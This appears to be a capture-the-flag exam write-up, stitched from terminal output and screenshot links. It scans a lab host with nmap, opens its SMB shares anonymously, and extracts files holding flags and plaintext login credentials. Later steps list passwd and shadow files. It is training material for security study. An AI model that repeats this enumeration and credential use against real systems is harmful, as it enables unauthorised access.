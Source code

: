 # felix-bett
└─$ nmap -sV -Pn 44.202.86.42                                                
Starting Nmap 7.95 ( https://nmap.org ) at 2025-06-28 11:31 EDT              
Nmap scan report for ec2-44-202-86-42.compute-1.amazonaws.com (44.202.86.42) 
Host is up (0.32s latency).                                                  
Not shown: 996 filtered tcp ports (no-response)                              
PORT    STATE SERVICE     VERSION                                            
22/tcp  open  ssh         OpenSSH 9.6p1 Ubuntu 3ubuntu13.12 (Ubuntu Linux; protocol 2.0)                                                                  
80/tcp  open  http        SimpleHTTPServer 0.6 (Python 3.12.3)               
139/tcp open  netbios-ssn Samba smbd 4                                       
445/tcp open  netbios-ssn Samba smbd 4                                       
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel                      
                                                                             
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .                                                            
Nmap d![Screenshot_2025-06-28_11_32_42](https://github.com/user-attachments/assets/0f51e712-d07e-43c2-bfda-bb7c9fb0846d)
one: 1 IP address (1 host up) scanned in 33.18 seconds 

2   139/tcp open  netbios-ssn Sa![20250315_215537](https://github.com/user-attachments/assets/ab60a871-5014-4c03-8c51-281a45211641)
mba smbd 4
3
llyspirit㉿kali)-[~]
└─$ curl http://44.202.86.42:80/flag/index.html
shujaa{web_flag_8080}

┌──(hollyspirit㉿kali)-[~]
![Screenshot_2025-06-28_11_46_54](https://github.com/user-attachments/assets/5424116d-e58e-4c29-b4f8-7b9941d7a797)

 4 
 445/tcp open  netbios-ssn Samba smbd 4
 




6
 
        Sharename       Type      Comment
        ---------       ----      -------
        print$          Disk      
        midexam         Disk      
        IPC$            IPC       IPC Service (Samba Server)
Reconnecting with SMB1 for workgroup listing.
smbXcli_negprot_smb1_done: No compatible protocol selected by server.
Protocol negotiation to server 44.202.86.42 (for a protocol between LANMAN1 and NT1) failed: NT_STATUS_INVALID_NETWORK_RESPONSE
Unable to connect with SMB1 -- no workgroup available
![Screenshot_2025-06-28_12_02_50](https://github.com/user-attachments/assets/674130a6-0389-470a-bdb7-76d8b5ebbb76)

7 
2
print$          Disk      
        midexam         Disk      
        IPC$            IPC   
8
 smbclient //44.202.86.42/IPC$ -N                                                    
Try "help" to get a list of possible commands.
smb: \> 
![Screenshot_2025-06-28_12_10_04](https://github.com/user-attachments/assets/a706cfd0-605c-4c62-9be6-e9d77db02e78)
9
$ smbclient //44.202.86.42/midexam -N
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Sat Jun 28 10:42:27 2025
  ..                                  D        0  Sat Jun 28 10:42:27 2025
  examdata                            D        0  Sat Jun 28 10:42:27 2025

                7034376 blocks of size 1024. 3570612 blocks available
smb: \> ls
![Screenshot_2025-06-28_12_12_27](https://github.com/user-attachments/assets/2151f395-41f9-4b82-be40-5b9f7b2ee1af)

10
┌──(hollyspirit㉿kali)-[~]
└─$ unzip project.zip                                                                  
Archive:  project.zip
 extracting: flag.txt                
 extracting: creds.txt               

┌──(hollyspirit㉿kali)-[~]
└─$ cat flag.txt                                                                       
shujaa{file_extract_flag}
![Screenshot_2025-06-28_12_27_00](https://github.com/user-attachments/assets/dc1cf4e9-95a8-4ff7-9b0a-a9fe6f9ab6d8)

11
└─$ cat creds.txt                                                                      
user:malisafi
password:DuncanIsHimL0L
![Screenshot_2025-06-28_12_29_21](https://github.com/user-attachments/assets/d6a66804-4dcf-4048-bf71-c730bc8d0b4f)

12
malisafi@ip-172-31-94-184:~$ cat flag.txt
shujaa{home_directory_flag}
![Screenshot_2025-06-28_12_32_52](https://github.com/user-attachments/assets/59a9d7be-e922-4916-b14a-1ae4fcd479dc)
13
base64file
![Screenshot_2025-06-28_12_35_34](https://github.com/user-attachments/assets/3e5c29b8-73be-440f-9a61-00f59a60ce06)

14
shujaa{decode_th1s_fl4g}
![Screenshot_2025-06-28_12_36_55](https://github.com/user-attachments/assets/02d4b63c-bd04-4934-ae7d-949d26a87f62)

15
malisafi@ip-172-31-94-184:~$ grep -i shujaa grepme.txt
shujaa{gr3p_th3_r1ght_l1n3}
![Screenshot_2025-06-28_12_38_11](https://github.com/user-attachments/assets/0db8d9f2-278c-4d6c-9d1b-8547f65806f9)
16
malisafi@ip-172-31-94-184:~$ ./checkflag examfile.txt
shujaa{vim_trigger_master}
![Screenshot_2025-06-28_12_40_00](https://github.com/user-attachments/assets/7bfbab72-51e7-41bb-8c2f-481cfe23cc7d)
17
./checkifcompressed examfile.zip
![Screenshot_2025-06-28_12_43_02](https://github.com/user-attachments/assets/63e716ac-bf47-4cb0-85af-5e563cc42f16)
18
-rw-rw-r-- 1 malisafi malisafi 1946 Jun 28 16:32 passwd
-rw-rw-r-- 1 malisafi malisafi 1124 Jun 28 16:17 shadow
![Screenshot_2025-06-28_12_44_36](https://github.com/user-attachments/assets/ade13a10-9818-4d1a-bab0-5fa9f4cdb1b3)
19

